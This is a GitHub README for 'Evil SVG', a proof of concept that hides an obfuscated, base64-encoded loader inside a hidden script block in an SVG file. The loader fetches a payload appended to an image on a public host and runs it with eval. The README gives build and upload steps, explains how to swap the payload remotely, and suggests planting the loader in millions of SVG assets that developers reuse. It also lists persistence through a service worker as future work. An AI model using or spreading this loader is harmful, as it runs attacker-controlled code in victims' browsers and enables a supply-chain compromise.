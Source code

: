 
![evil](https://user-images.githubusercontent.com/65471523/168417899-313b6767-a579-4dbb-ae35-24f45cd9fba5.jpg)


# Evil SVG

Fun proof of concept demonstrating an obfuscated loading process to execute cross-site code via SVG images.

## Concept

1. Produce some bad client-side code to execute. For the example a simple `alert()` is used.
2. Bundle the attack code as obfuscated js, convert to base64, then append to a carrier image file.
3. Generate some thin loader code that fetches the carrier image from a remote host.
4. Transpose a source SVG image into a template containing the loader code.
5. Use infected SVG to execute client-side code which can be dynamically modified by changing the payload code.

## Execution

### Setup

1. Install [`pnpm`](https://pnpm.io/) globally.
2. Run `pnpm install` to install dependencies.

### Build Payload

1. Edit the `src/build/*.ts` files using the variables provided.
2. Edit the `obfuscator.config.js` config to your preferences or disable the `build:obfuscate` build step.
3. Run `pnpm build` to inject your code into the target image files in `assets/`
4. Build will output files to `dist/`
5. Upload the `payload` image (copyright.png) to a remote host (e.g. [imagebb](https://imgbb.com/))

### Build Evil SVG

1. Get the real uploaded file url and ensure the `base64` content has not been stripped during upload.
2. Set the url from previous step as the `LOADER_URL` variable in `src/build/loader/ts`.
3. Run `pnpm build` a second time to inject the correct loader url into the `evil.svg` file.
4. Open `evil.svg` and see your code execute.

## Screenshots

![image](https://user-images.githubusercontent.com/65471523/168417033-d7825d47-4ae6-4321-b964-620b152901e4.png)

![image](https://user-images.githubusercontent.com/65471523/168417067-39bc2b00-08ac-419d-bac4-bebfb94fba5f.png)


## Unminified SVG Content

```svg
<svg version="1.1"
		 xmlns="http://www.w3.org/2000/svg"
		 viewBox="-668 325.5 250 250"
		 style="enable-background:new -668 325.5 250 250;"
		 xml:space="preserve"> 
	<path fill="#F7DF1E" d="M-668,325.5h250v250h-250V325.5z"/>
	<path d="M-612.3,524.4l19.1-11.6c3.7,6.5,7,12.1..."/>
	<path d="M-529.2,521.9l19.1-11.1c5,8.2,11.6,14..."/>
	<foreignObject x="0" y="0" width="0" height="0"> 
		<div xmlns="http://www.w3.org/1999/xhtml" style="display: none;"> 
			<script> eval(atob(("KCgpPT57dmFyIGM9KHQsYSk9PigpPT4oYXx8dCgoYT17ZXhwb3J0czp7fX0pLmV4cG9ydHMsYSksYS5leHBvcnRzKTt2YXIgZT1jKChleHBvcnRzLG1vZHVsZSk9Pnt2YXIgTE9BREVSX1VSTD0iaHR0cHM6Ly9pLmliYi5jby94MkZOUGtzL2NvcHlyaWdodC5wbmciO2ZldGNoKExPQURFUl9VUkwpLnRoZW4odD0+dC50ZXh0KCkpLnRoZW4oZGF0YT0+e3ZhciB0O3JldHVybiBldmFsKGF0b2IoKHQ9ZGF0YS5zcGxpdCgiOyIpLnBvcCgpKSE9bnVsbD90OiIiKSl9KS5jYXRjaCh0PT57fSl9KTtlKCk7fSkoKTsK"))) </script> 
		</div> 
	</foreignObject>
</svg>
```

## Dynamic Payloads

Note in the example we used a public image host which would not allow updating the payload code.

You might instead design a server that can build and inject your arbitrary code into the payload image dynamically
then set it up on a Cloudflare Worker, but that's outside the scope of this PoC.

Alternatively you might host on a server that allow replacement of an image at the same url to update your
payload code when needed.

All infected SVGs in circulation will continue to poll the url they have had baked in so as long as the url does not change
they will continue to work.

## Other Thoughts

1. The "obfuscation" and "appending to a carrier image" is not required, you could pull a raw `base64` encoded text/json response as the payload from an endpoint. That just felt less sneaky.

<img src="https://thumbs.gfycat.com/BitterEsteemedGrouse-size_restricted.gif" />

2. This technique does not work if svgs are loaded via an image (eg `<img src="https://foo.bar/evil.svg" />`), the SVG must be loaded inline.
3. To that end, it seems like the ideal attack would be to scrape and transpose loader code into millions of assets that frontend developers are likely to download and use without much thought in frontend apps
   using svg inliners.

## Todo

- Create _"pseudo-SVG-path"_ dictionary to replace `base64` in SVG code.
- Build Service Worker for persistence.
- Find a public image host that allows updating files.
